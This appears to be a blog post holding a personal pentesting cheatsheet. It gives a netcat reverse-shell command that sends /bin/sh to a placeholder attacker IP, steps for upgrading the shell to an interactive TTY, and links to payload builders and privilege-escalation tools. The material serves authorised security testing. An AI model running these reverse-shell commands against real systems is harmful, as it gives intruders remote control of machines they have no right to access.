 ```yaml
---
title: PenTest Cheatsheet
author: z3nn
date: 2020-09-19 20:31:00 +0200
categories: [Hacking, Cheatsheet]
description: Penetration Testing Cheatsheet
pin: true
tags: [hacking, pentest, cheatsheet, linux]
---
```


This cheatsheet is a compilation of the most used `things` I need when pentesting, I will try to link the refference for the information and give credit where credit is due.

## Reverse shell using netcat

Open listener on attacking machine.
```
$ nc -lnvp <Listening_Port>
```

On target machine open the reverse shell to the attacking machine's IP and open port
```
$ nc <Attacker_IP> <Attacker_Port> -e /bin/sh
```

> The target machine can open a reverse shell in multiple ways, use [PentestMoneky](http://pentestmonkey.net/) for various reverse shells
> A good PHP reverse shell can be found on [PentestMoneky](https://github.com/pentestmonkey/php-reverse-shell)'s github repo.


## Upgrading a reverse shell

```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In attacking machine
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
```

> Other ways to upgrade a reverse shell can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


## MSFVenom payloads & more

I've found [PenTest.WS](https://pentest.ws/tools/venom-builder) to have a great online GUI tool to aid in creating MSF Venom payloads.
[PenTest.WS](https://pentest.ws/tools/shells) also contains various other tools like Reverse Shell builder.
I haven't yet used the `+ Create Engagement` option but will most likely have a go at it soon.


## PrivEsc

### Linux

No doubt, the best thing for me has been [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Windows

For Windows PrivEsc there are multiple things one can use to enumerate and look for PrivEsc options... Here's a few usefull things
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Powerless](https://github.com/M4ximuss/Powerless)

Another great tool to use in both PenTest and further enumeration where possible is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)


